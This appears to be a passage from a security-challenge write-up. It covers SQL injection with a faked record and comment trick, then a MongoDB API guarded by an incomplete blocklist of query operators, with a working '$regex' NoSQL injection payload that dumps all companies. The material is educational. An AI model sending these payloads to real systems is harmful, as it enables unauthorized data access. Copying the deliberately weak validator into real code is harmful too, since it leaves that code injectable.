 The bcrypt string is a genuinely hashed password of our choice, which we'll provide as the value for the second argument, and as you can see, all the other values are literals of our choice. So the record returned is actually all fake and does the trick, where last and first name are correctly present. The "-- -" sequence at the end makes sure that whatever comes later, is commented out, so it's not in our way.

<br /><br />



### **#16: Companies API**

**Goal:** Via Companies API, get the list of all companies

**Code:**

```javascript
import clientPromise from "../../lib/mongodb";

const isValid = (value) => {
    const expression = RegExp(`(\"\$ne\")+|(\"\$eq\")+|(\"\$not\")+` +
    `|(\"\$in\")+|(\"\$nin\")+|(\"\$gt\")+` +
    `|(\"\$gte\")+|(\"\$lt\")+|(\"\$lte\")+` + 
    `|(\"\$nor\")+|(\"\$and\")+|(\"\$exists\")+` +
    `|(\"\$type\")+`); 
    const invalid = JSON.stringify(value).search(expression);
    return invalid == -1;
}

export default async (req, res) => {
    try {
        if(typeof(req.body) === 'object' && isValid(req.body.company_id)) {
            const client = await clientPromise;
            const db = client.db("challenge_5");
            const company = await db
                .collection("companies")
                .find({ company_id:  req.body.company_id})
                .maxTimeMS(5000)
                .toArray();
            res.send(JSON.stringify(company));
        } else {
            res.send("Invalid arguments provided");
        }
    } catch (e) {
        res.status(500).end(e.message);
        console.error(e);
    }
};
```

<br />



```
POST /api/companies

{
  "company_id": {
    "$regex": ".*"
  }
}
```
